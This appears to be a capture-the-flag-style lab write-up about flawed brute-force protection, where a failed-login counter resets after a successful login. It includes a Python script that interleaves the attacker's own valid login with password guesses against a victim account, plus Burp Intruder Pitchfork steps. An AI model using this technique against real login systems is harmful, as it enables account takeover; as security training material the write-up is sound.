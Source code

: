 
---

## Flawed brute-force protection

Brute-force protection revolves around trying to make it as tricky as possible to automate a brute-force attack and slow down the rate of failed attempts. 

The two most common ways of preventing brute-force attacks are:

Locking the account that the remote user is trying to access if they make too many failed login attempts.

Blocking the remote user's IP address if they make too many login attempts in quick succession.

Neither of them is invulnerable, especially if implemented using flawed logic.

For example, we might sometimes find that our IP is blocked if we fail to log in too many times. In some implementations, the counter for the number of failed attempts resets if the IP owner logs in successfully. That means an attacker can login using their own account every few login attempts to prevent this limit from being reached.

---

## LAB - Broken brute-force protection, IP block

**This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.**

**Your credentials: wiener:peter
Victim's username: carlos
Use Candidate passwords**

To solve this lab, we will need to figure out first how many times we can try to login with wrong credentials before being blocked from attempting more.

We find out that after the third attempt, we are prevented from logging in and we need to wait for a minute. 

The trick is that to come up with a script to write for us our password every third word after going through the password list that we have along with writing our username every third Carlos word.

The code for this in Python: 
```
print ("The following usernames:")


for i in range (150):

	if i % 3:
		print("carlos")
	else:
		print("wiener")


print("The follwing passwords:")

with open('passwordslist.txt','r') as f:
	lines=f.readlines()

i=0

for pwd in lines:
	if i%3:
		print(pwd.strip('\n'))
		
	else:
		print("peter")
		print(pwd.strip('\n'))
		i+=1
	i+=1

#To let us know how many times we need to print both of usernames to match with our passwrods list
print("number of tries:",i)
```


We will catch a login request then send it to Intruder.  Using Pitch Fork attack, we will put two payload markers on the user name and password. In the first payload we will put the usernames list that we get. We need to put our valid username first so BurpSuite doesn't attempt to login with empty credentials. The same goes to the password.

After running the attack, we will get the right password for carlos. The response should be 302 for the username carlos.

